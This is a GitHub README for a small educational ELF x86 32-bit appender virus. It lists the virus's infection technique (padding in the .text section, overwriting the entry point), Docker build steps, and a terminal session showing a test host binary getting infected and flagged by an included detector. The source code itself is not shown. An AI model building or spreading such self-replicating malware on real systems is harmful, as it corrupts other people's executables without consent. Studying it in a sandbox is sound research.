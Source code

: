 ELF x86 32bit appender virus in 800b (with debug symbols)
=========================================================
The virus infects every infectable elf executable in the current directory using [Silvio's](https://en.wikipedia.org/wiki/Silvio_Cesare) classic .text section padding technique.

* mmap host for improved efficiency 
* gets virus length using jmp trick so no bootstrapping
* overwrites ELF header entry point

Compile
-------

The virus now runs in docker although you do not have to use docker. To compile the image run `docker build -t virus .`. To run the image use the `docker.sh` script. Once inside the docker container do `cd /virus/ && make` to compile. The virus code and host will be stored in `/tmp`

```
18:57 $ ./docker.sh

root@5d3f53a66f94:/# cd /virus/
root@5d3f53a66f94:/virus# make
gcc -m32  -g appender.s -o /tmp/appender
gcc -m32 host.c -o /tmp/host
gcc -m32 detector.c -o detect/detector
cp -r detect /tmp
cp info.sh /tmp
text size = 1729

***********
Now go to /tmp to run the virus
***********

root@5d3f53a66f94:/virus# cd /tmp/

root@203ff78bcad2:/tmp# ./host
hello world

root@5d3f53a66f94:/tmp# ./info.sh host
**** host ****
cb261f205ba23d2fcc49fecbcd91e072  host
entry point address:               0x8048320
host is clean

root@5d3f53a66f94:/tmp# ./info.sh appender
**** appender ****
81cb4c926b9da8cea19806f1fda2c658  appender
entry point address:              0x80482f0
appender is infected

root@203ff78bcad2:/tmp# ./appender
infect
root@203ff78bcad2:/tmp# ./host
infect
hello world

root@5d3f53a66f94:/tmp# ./info.sh host
**** host ****
72f68dd92d78201725a85b4b00254848  host
entry point address:               0x80485bd
host is infected
```
